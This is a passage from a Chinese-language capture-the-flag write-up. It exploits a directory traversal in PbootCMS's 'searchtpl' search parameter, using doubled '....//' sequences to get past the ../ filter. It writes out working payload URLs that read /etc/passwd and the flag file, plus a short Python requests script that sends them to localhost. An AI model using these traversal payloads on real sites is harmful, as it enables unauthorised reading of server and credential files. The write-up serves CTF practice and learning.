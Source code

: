 > **/etc/passwd** ：Linux 系统保存用户信息及其工作目录的文件，权限是可读。

参考 [过往版本漏洞](https://xz.aliyun.com/t/7744#toc-0) ，此类漏洞大多存在 `../` 和 `\`  的过滤现象，可利用 **双写绕过** 解决。

以「PbootCMS」为模版的网站为实现搜索功能常使用「search」等标签，在 [PbootCMS英文站搜索结果页面包屑和标题翻译](https://www.srso.cn/seo/770.htm) 等在线文档中曾多次出现了「searchtpl」等属性名。

综合以上，反复多次试验找出了根目录

`?search=&searchtpl=....//....//....//....//....//....//....//....//etc/passwd`

![find_root_of_flag1_219](img/find_root_of_flag1_219.jpg)

猜想有「flag.php」或「flag」放在根目录或其子目录下，试验发现「flag」直接放在根目录下，成功拿到 flag

`?search=&searchtpl=....//....//....//....//....//....//....//....//flag`

![find_flag1_220](img/find_flag1_220.jpg)

利用「request 库」即可得到  flag

```python
import requests
def exp(url):
    r=requests.get(url)
    flag=r.text
    return flag
if __name__ == '__main__':
    print(exp("http://127.0.0.1/?search=&searchtpl=....//....//....//....//....//....//....//....//flag"))
```
